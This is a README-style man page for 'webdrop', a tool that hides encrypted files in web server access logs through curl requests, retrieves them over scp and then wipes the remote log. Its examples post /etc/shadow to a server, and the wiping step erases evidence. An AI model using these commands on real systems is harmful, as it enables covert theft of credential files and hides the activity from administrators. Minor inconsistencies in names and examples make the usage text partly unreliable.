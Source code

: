 # Name

webrop - use [CurlyTP](https://miscdotgeek.com/curlytp-every-web-server-is-a-dead-drop) to send encrypted messages

# Synopsis

```
webdrop [OPTION] load URL [FILE ...]
webdrop [OPTION] unload [HOST:]LOGFILE
```

# Description

Use [CurlyTP](https://miscdotgeek.com/curlytp-every-web-server-is-a-dead-drop)
to send encrypted messages.

`webdrop load` will encrypt each FILE individually and use `curl` to post it to
the webserver running on URL. `stdin` will be read if no FILEs are given or if
one of the FILEs is `-`.

`webdrop unload [HOST:]LOGFILE` will download the webserver logfile at
HOST:LOGFILE using `scp` and then extract each FILE currently in the log. Once
all FILEs are extracted, the remote log is wiped. If only LOGFILE is given,
`webdrop` will access LOGFILE on `localhost`.

# Options

`-h` Print a help message and exit.

`-v` Display version information.

## load command

`-r [DELAY]` delay from 1 to DELAY seconds between sending successive message
chunks (Default is no delay).

`-w [WRAP]` maximum length of a message chunk (Default = 76).

## unload command

`-p [PORT]` Use PORT to access ssh (Default = 22).

`-d [DIRECTORY]` Save extracted files to DIRECTORY (Default = .).

**NOTE:** `sudo(1)` must be installed on the remote webserver in order to delete
retrieved messages from the logs.

# Examples

`webdrop 192.168.0.1 /etc/shadow`

Post `/etc/shadow` to the webserver at `192.168.0.1`.

`webdrop 192.168.0.1 /etc/shadow -`

Post `/etc/shadow` and whatever is read from `stdin` to the webserver at
`192.168.0.1`.

`webdrop unload admin@192.168.0.1:/var/log/nginx/access.log`

Extract messages from `/var/log/nginx/access.log` on `192.168.0.1` using
`root` to login.

`webdrop unload /var/log/nginx/access.log`

Extract messages from `/var/log/nginx/access.log` on `localhost`.

# Encryption

`webdrop` requires [mcrypt](http://mcrypt.sourceforcge.net).

# See Also

[mcrypt(1)](http://mcrypt.sourceforge.net)

